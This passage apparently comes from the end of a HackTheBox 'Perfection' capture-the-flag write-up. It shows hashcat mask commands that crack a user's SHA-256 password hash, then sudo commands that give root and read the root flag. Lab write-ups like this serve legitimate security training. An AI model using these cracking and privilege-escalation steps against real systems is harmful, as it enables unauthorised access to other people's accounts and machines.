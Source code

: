 So, this appears to be an exercise in using customized `hashcat` rules.

First, I created a wordlist with exactly one entry, per the email above: `susan_nasus_`

Then I ran `hashcat` in "Hybrd Wordlist + Mask" mode (`-a6`) using a series of masks that append a digit to the end of the word:

```text
$ hashcat -a6 -m 1400 hash perfection.txt ?d ?d?d ?d?d?d ?d?d?d?d ?d?d?d?d?d ?d?d?d?d?d?d ?d?d?d?d?d?d?d ?d?d?d?d?d?d?d?d ?d?d?d?d?d?d?d?d?d
```

There are probably more elegant ways to craft that. It's inefficient such that it will try guesses such as `susan_nasus0000042`, whereas the email seems to indicated that prepended zeroes will _not_ be a part of the randomly generated appended integer, but it worked well enough. After about eight minutes, the password is cracked:

```text
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_[redacted]
```

With the password for `susan`, Sudo grants us root access to the box:

```console
susan@perfection:~$ sudo -l
[sudo] password for susan:
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User susan may run the following commands on perfection:
    (ALL : ALL) ALL
susan@perfection:~$ sudo -i
root@perfection:~# cat /root/root.txt
9bcd1638a...
```

## Open Questions

Unresolved issues encountered while attacking this target.

- The `hashcat` command could probably have been cleaner, something like: `hashcat -a3 -m 1400 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d?d?d?d`
    - What's the optimal approach for this?

## Credits

I used [this writeup from James Jarvis](https://medium.com/@jamesjarviscyber/perfection-hackthebox-walkthrough-management-summary-a493c71355ac) for a hint on the correct Ruby syntax for the command injection.
